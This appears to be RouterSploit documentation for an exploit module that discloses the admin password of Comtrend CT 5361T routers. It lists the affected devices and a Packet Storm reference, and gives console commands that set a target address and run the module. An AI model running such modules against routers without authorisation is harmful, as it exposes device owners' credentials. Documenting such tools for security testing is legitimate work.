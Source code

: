 # Comtrend CT 5361T Password Disclosure

## Description
WiFi router Comtrend CT 5361T suffers from a Password Disclosure Vulnerability

## Authors
* TUNISIAN CYBER # routersploit module

## References
* [https://packetstormsecurity.com/files/126129/Comtrend-CT-5361T-Password-Disclosure.html](https://packetstormsecurity.com/files/126129/Comtrend-CT-5361T-Password-Disclosure.html)

## Vulnerable devices
* Comtrend CT 5361T (more likely CT 536X)

## Usage
```
rsf > use exploits/comtrend/ct_5361t_password_disclosure
rsf (Comtrend CT 5361T Password Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


rsf (Comtrend CT 5361T Password Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Comtrend CT 5361T Password Disclosure) > run
[*] Running module...
```
